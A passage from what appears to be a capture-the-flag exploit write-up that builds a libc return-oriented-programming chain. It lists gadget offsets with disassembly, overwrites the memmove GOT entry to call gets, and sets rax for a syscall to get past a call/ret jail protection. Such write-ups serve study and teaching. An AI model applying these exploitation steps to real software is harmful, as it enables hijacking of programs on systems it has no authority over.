 This is a special gadget because it has 2 calls to `libc GOT entries`.
This is important because one way to bypass the jail call/ret protection is by calling a function and having it return cleanly.
So with this gadget, we can overwrite the `memmove` GOT entry to anything we want and that will return back into this gadget where whatever gadget at `strrchr` is will continue the chain.

With `rdi` being on the stack, I make `memmove` call `gets` this way I have much better control of the stack moving forward.

#### mov_rax_rsp_40

```python
mov_rax_rsp_40 = libc.address+0x1597c8
'''
001597c8 488b442440 mov rax, qword [rsp+0x40 {var_68}]
001597cd 4c89e7 mov rdi, r12
001597d0 4889c6 mov rsi, rax
001597d3 4889442410 mov qword [rsp+0x10 {var_98_1}], rax
001597d8 e8a3edecff call jump_strcasecmp
'''
```

Now that I can control as much of the stack as I want, there are more options of gadgets I can use to control other registers.
The goal again is to call the magic syscall and to do that I need control of `rax` to set as the syscall number. I can easily set the desired value when gets is called and this gadget will load it in `rax` for me.

#### add_rsp_a_lot

```python
add_rsp_a_lot = libc.address+0xd059b
'''
000d059b 4881c4f8000000 add rsp, 0xf8
000d05a2 5b pop rbx {__saved_rbx}
000d05a3 5d pop rbp {__saved_rbp}
000d05a4 415c pop r12 {__saved_r12}
000d05a6 415d pop r13 {__saved_r13}
000d05a8 415e pop r14 {__saved_r14}
000d05aa 415f pop r15 {__saved_r15}
000d05ac e90f80f5ff jmp jump_wcscmp
'''
```

This gadget allows me to move the stack passed whatever was on it before and be directly in my fully controlled space from the `gets`.

#### lea_rdi_rsp2

```python
lea_rdi_rsp2 = libc.address+0x15554c #stpcpy
'''
0015554c 488d7c2405 lea rdi, [rsp+0x5]
00155551 4c89ee mov rsi, r13
00155554 c64424045f mov byte [rsp+0x4], 0x5f
00155559 e8f22eedff call jump___stpcpy
'''
```

